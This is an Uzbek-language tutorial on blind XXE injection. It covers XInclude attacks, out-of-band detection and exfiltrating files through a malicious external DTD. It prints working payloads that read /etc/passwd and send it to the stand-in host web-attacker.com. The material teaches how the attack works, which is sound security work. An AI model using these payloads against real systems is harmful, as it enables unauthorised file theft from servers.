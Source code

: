 

Ko‘zdan yashiringan (blind) XXE zaifliklari
Ko‘plab XXE zaifliklari “ko‘zdan yashiringan” bo‘ladi. Bu — ilova tashqaridan ta’riflangan entitetlarning qiymatlarini javoblarida qaytarmaydi, shuning uchun serverdagi fayllarni to‘g‘ridan-to‘g‘ri o‘qib olish mumkin emasligini anglatadi.

Ko‘zdan yashiringan XXE zaifliklarini ham aniqlash va ekspluatatsiya qilish mumkin, lekin buning uchun yanada murakkab usullar kerak bo‘ladi. Ba’zida siz out-of-band texnikalaridan (masofaviy kanal orqali) foydalanib zaifliklarni topishingiz va ma’lumotlarni chiqarib olishingiz mumkin. Yana ba’zida XML parse qilinishida xatoliklarni qo‘zg‘atish mumkin, va shu xatolik xabarlari orqali maxfiy ma’lumotlarni oshkor qilish mumkin.

Batafsil o‘qish
Ko‘zdan yashiringan XXE zaifliklarini topish va ekspluatatsiya qilish

XXE injeksiyasi uchun yashirin hujum sathi topish
XXE injeksiyasi hujum sathi ko‘p hollarda oson aniqlanadi, chunki ilovaning oddiy HTTP trafikida XML formatidagi ma’lumotlarni o‘z ichiga olgan so‘rovlar mavjud bo‘ladi. Boshqa hollarda esa hujum sathi kamroq ko‘rinadi. Ammo, to‘g‘ri joylarni tekshirsangiz, XML bo‘lmagan so‘rovlarda ham XXE hujum sathi topishingiz mumkin.

XInclude hujumlari
Ba’zi ilovalar mijoz yuborgan ma’lumotni oladi, uni server tomonida XML hujjatiga joylaydi va so‘ng hujjatni parse qiladi. Misol uchun, mijoz yuborgan ma’lumot backenddagi SOAP so‘roviga joylashtirilsa va u xuddi shu tarzda qayta ishlansa — bunday vaziyatda klassik XXE hujumini amalga oshirish mushkul bo‘ladi, chunki siz butun XML hujjatni boshqara olmaysiz va DOCTYPE elementini qo‘shib yoki o‘zgartira olmaysiz. Biroq, XInclude yordamida hujum qilish imkoniyati bo‘lishi mumkin. XInclude — XML spetsifikatsiyasining bir qismi bo‘lib, u XML hujjatini kichik hujjatlardan birlashtirishga imkon beradi. Siz XInclude hujumini XML hujjatidagi istalgan ma’lumot maydoniga joylashtirishingiz mumkin, shuning uchun hujum siz faqatgina server tomonidagi XML hujjatiga joylashtiriladigan yagona ma’lumot elementini boshqarishingiz mumkin bo‘lgan vaziyatlarda ham amalga oshiriladi.

XInclude hujumini bajarish uchun siz XInclude namespace’ini ulashingiz va o‘qishni xohlagan fayl yo‘lini ko‘rsatishingiz kerak. Masalan:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

_________________________________________________________________________________________________________________________
Ko‘zdan yashiringan (blind) XXE ni out-of-band (OAST) texnikalari yordamida aniqlash
Ko‘pincha ko‘zdan yashiringan XXE ni aniqlash uchun XXE → SSRF hujumlarida ishlatiladigan usuldan foydalanish mumkin — ya’ni tarmoq orqali chetga (out-of-band) o‘z nazoratingiz ostidagi tizimga so‘rov yuborilishini qo‘zg‘ashingiz kerak. Masalan, tashqi entitetni quyidagicha e’lon qilishingiz mumkin:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

So‘ngra aniqlangan entitetni XML ichidagi ma’lumot qiymatida ishlatasiz.

Bu XXE hujumi serverni ko‘rsatilgan URL ga orqa tomondan HTTP so‘rov yuborishga majbur qiladi. Hujumchi DNS so‘rovi va HTTP so‘rovlarni kuzatib, shunday qilib XXE hujumi muvaffaqiyatli bo‘lganligini aniqlaydi.

Ba’zida oddiy entitetlar yordamida bajariladigan XXE hujumlari ilovaning kirish ma’lumotlarini tekshirish yoki ishlatilayotgan XML parserining qattiq sozlamalari tufayli bloklanishi mumkin. Bunday vaziyatda XML parametr entitetlaridan foydalanish mumkin. XML parametr entitetlari — DTD ichida faqat boshqa joylarda chaqirilishi mumkin bo‘lgan maxsus turdagi XML entitetlaridir. Hozircha sizga ikkita muhim jihatni bilish kifoya: birinchidan, XML parametr entitetini e’lon qilishda entitet nomidan avval foiz (%) belgisi ishlatiladi:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

Ikkinchidan, parametr entitetlari odatdagi ampersand (&) o‘rniga foiz (%) belgisi bilan chaqiriladi:

```
%myparameterentity;
```

Demak, ko‘zdan yashiringan XXE ni XML parametr entitetlari orqali out-of-band usulda sinash mumkin, masalan:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Ushbu XXE payload `xxe` nomli XML parametr entitetini e’lon qiladi va so‘ngra uni DTD ichida chaqiradi. Bu hujumchi domeniga DNS so‘rovi va HTTP so‘rov yuborilishiga olib keladi va shu tarzda hujumning muvaffaqiyati tasdiqlanadi.




Ko‘zdan yashiringan (blind) XXE orqali ma’lumotlarni out-of-band (chetkanal) yo‘li bilan o‘g‘irlash
Out-of-band usullari orqali ko‘zdan yashiringan XXE zaifligini aniqlash yaxshi, lekin bu zaiflikning qanday ekspluatatsiya qilinishi mumkinligini ko‘rsatmaydi. Hujumchi aslida maqsad qilgan narsa — maxfiy ma’lumotlarni o‘g‘irlashdir. Bu ko‘zdan yashiringan XXE orqali amalga oshirilishi mumkin, ammo buning uchun hujumchi o‘z nazorati ostidagi tizimga zararli DTD joylab, so‘ng in-band XXE payload ichidan tashqi DTDni chaqirishi kerak bo‘ladi.

Masalan, /etc/passwd faylining mazmunini o‘g‘irlash uchun zararli DTD quyidagicha bo‘lishi mumkin:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Ushbu DTD quyidagi qadamlarni bajaradi:

1. `file` nomli XML parametr entitetini e’lon qiladi, uning qiymati `/etc/passwd` faylining mazmunidan iborat bo‘ladi.
2. `eval` nomli XML parametr entitetini e’lon qiladi; uning qiymati boshqa bir XML parametr entiteti — `exfiltrate` — ning dinamik e’lonidan iborat. `exfiltrate` entiteti hujumchi veb-serveriga HTTP so‘rov yuborilganda `file` entitetining qiymatini URL query satrida uzatadi.
3. `eval` entiteti ishlatiladi — bu `exfiltrate` entitetining dinamik e’lon qilinishini keltirib chiqaradi.
4. `exfiltrate` entiteti ishlatiladi — natijada belgilangan URL chaqiriladi va fayl mazmuni hujumchi serveriga uzatiladi.

Hujumchi zararli DTDni o‘z nazorati ostidagi tizimga (odatda o‘zining veb-serveriga) joylashi kerak. Masalan, hujumchi zararli DTDni quyidagi URLda xizmatga qo‘yishi mumkin:

```
http://web-attacker.com/malicious.dtd
```

Oxirida hujumchi zaif ilovaga quyidagi XXE payloadni yuborishi lozim:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

Ushbu XXE payload `xxe` nomli XML parametr entitetini e’lon qiladi va DTD ichida uni chaqiradi. Bu XML parserni hujumchi serveridan tashqi DTDni yuklashga majbur qiladi va uni joyida (inline) talqin qiladi. Zararli DTD ichida belgilangan qadamlar bajariladi va `/etc/passwd` fayli hujumchi serveriga uzatiladi.

Eslatma
Ba’zi hollarda bu usul har doim ishlamasligi mumkin — masalan `/etc/passwd` faylidagi newline (qator yakunlash) belgilarini o‘z ichiga olgan ba’zi fayl mazmunlarini uzatib bo‘lmasligi mumkin. Buning sababi ba’zi XML parserlar tashqi entitetdagi URLni chaqirish uchun ishlatadigan API URLda qaysi belgilar ruxsat etilganini tekshiradi. Bunday holatda HTTP o‘rniga FTP protokolidan foydalanish mumkin bo‘ladi. Ba’zan esa newline belgilarini o‘z ichiga olgan ma’lumotni umuman eksfiltraytsiya qilib bo‘lmaydi; shuning uchun `/etc/hostname` kabi qator bo‘lmagan fayl maqsad qilib olinishi mumkin.

